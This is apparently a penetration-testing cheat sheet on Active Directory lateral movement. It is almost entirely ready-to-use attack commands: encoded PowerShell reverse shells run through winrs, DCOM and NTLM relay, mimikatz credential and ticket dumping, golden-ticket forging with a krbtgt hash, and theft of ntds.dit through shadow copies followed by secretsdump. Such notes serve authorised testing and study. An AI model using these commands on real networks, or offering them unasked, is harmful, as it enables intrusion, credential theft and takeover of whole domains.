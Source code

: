 # 🏹 AD Lateral Movement

## Winrs

```shell
# add the base64-encoded PowerShell reverse shell
winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e <encoded_rs>"
```

## PsExec.exe

**Requirements**:

- The user that authenticates to the target machine needs to be part of the Administrators local group.
- The _ADMIN$_ share must be available (enabled by default).
- File and printer sharing has to be turned on (on by default)

```shell
./PsExec64.exe -i \\FILES04 -u corp\jen -p Nexus123! cmd
```

## Evil-Winrm

```shell
# using password
evil-winrm -i <ip>/<domain> -u <user> -p <pass>
evil-winrm -i <ip>/<domain> -u <user> -p <pass> -S
# using hash
evil-winrm -i <ip>/<domain> -u <user> -H <hash>
# using key
evil-winrm -i <ip>/<domain> -c cert.pem -k key.pem -S

# once connected, upload or download files
upload <file>
download <file>

# load PS scripts on connect
evil-winrm -i <ip>/<domain> -u <user> -p <pass> -s <script.ps1>
```

## Impacket-\*execs

**Requirements**:

- An SMB connection through the firewall (commonly port 445).
- The Windows File and Printer Sharing feature must be enabled.
- The admin share called **ADMIN$** must be available.

```shell
# psexec
impacket-psexec -hashes <hash:hash> <domain>/<user>@<IP> <command> 
# smbexec
impacket-smbexec -hashes <hash:hash> <domain>/<user>@<IP> <command> 
# wmiexec
impacket-wmiexec -hashes <hash:hash> <domain>/<user>@<IP> <command> 
# atexec
impacket-atexec -hashes <hash:hash> <domain>/<user>@<IP> <command>

# if you only have the NTLM hash portion, use :<ntlm_hash>
```

## Overpass the Hash

> When you have NTLM hashes but need Kerberos access.

```shell
# get hashes with mimikatz
privilege::debug
sekurlsa::logonpasswords
# generate Kerberos ticket
sekurlsa::pth /user:Administrator /domain:<domain> /ntlm:<hash>
# verify Kerberos ticket
klist

# access the resource
dir \\<target>\C$
```

## Pass the Ticket

> When you have Kerberos tickets but not the NTLM hash.

```shell
# export tickets with mimikatz
privilege::debug
sekurlsa::tickets /export
# import it as the current user
kerberos::ptt [0;76126]-2-0-40e10000-Administrator@krbtgt-<rhost>.LOCAL.kirbi
# verify Kerberos ticket
klist

# access the resource
dir \\<target>\admin$
```

## DCOM

```shell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"))

$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")

$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGU...
AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")
```

## Golden Ticket

Is a forged Kerberos Ticket Granting Ticket (TGT) that allows an attacker to gain complete control of the Active Directory domain because it grants them the ability to request tickets for any service.

```mermaid
sequenceDiagram
    participant A as Attacker
    participant KDC as KDC
    participant S as Service

    Note over A: Attacker obtains KRBTGT key (offline)
    A->>A: Forge Golden Ticket (TGT) with custom claims
    A->>KDC: TGS-REQ (with forged TGT)
    KDC-->>A: TGS-REP (service ticket)
    A->>S: AP-REQ (with forged service ticket and authenticator)
    S-->>A: AP-REP (access granted)

```

```shell
# windows
# delete existing tickets
kerberos::purge

# get domain SID
whoami /user

# forge the ticket
kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt

# spawn a cmd as the new user
misc::cmd
# or launch psexec.exe
PsExec.exe \\dc1 cmd.exe

# Linux
impacket-ticketer -aesKey <key> -domain-sid <sid> -domain <domain> -extra-sid <parent_sid> <user> -extra-pac

# import the TGT
export KRB5CCNAME=<user>.ccache

# access the machine
impacket-psexec -k -no-pass <domain>/<username>@<hostname>.<domain>
```

To get the parent domain (if needed), use it in `-extra-sid`:

```shell
.\mimikatz.exe "lsadump::trust /patch" "exit"
```

## Shadow Copies

**Requirements**:

- Admins or SYSTEM privs
- Access to a DC (ntds.dit is only on DC)
- Regular user with **SeBackupPrivilege** (Can use robocopy to get the file from the copy)

### vshadow

```shell
# execute vshadow and look for the path
vshadow.exe -nw -p C:
# copy from the path
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
# get system
reg.exe save hklm\system c:\system.bak
# use secretsdump to get the hashes
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```

### diskshadow

First, set up a **shadowcopy.txt** instructions file in which you create a volume with an alias as seen [here](https://pentestlab.blog/tag/diskshadow/):

```shell
set context persistent nowriters
add volume c: alias hack
create
expose %hack% z:
```

Upload the file and execute `diskshadow`

```shell
# execute diskshadow using the file
diskshadow.exe /s .\test.txt
# copy or use robocopy if regular user witn backup perms
robocopy /b z:\Windows\NTDS\ . ntds.dit 
# get system
reg save HKLM\system system
# use secretsdump to get the hashes
impacket-secretsdump -ntds ntds.dit -system system LOCAL
```

## NTLM Relay

!!! info
    SMB signing on the target system must be **disabled**

```shell
# check whether the SMB signing is enabled on the target system
nxc smb <target_host>

# capture and forward the request to target host and execute a command on it
impacket-ntlmrelayx --no-http-server -smb2support -t <target_host> -c "powershell -enc JABjAGwAa...AYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA=="

# dump target hashes without executing command
impacket-ntlmrelayx --no-http-server -smb2support -t <target_host>
```
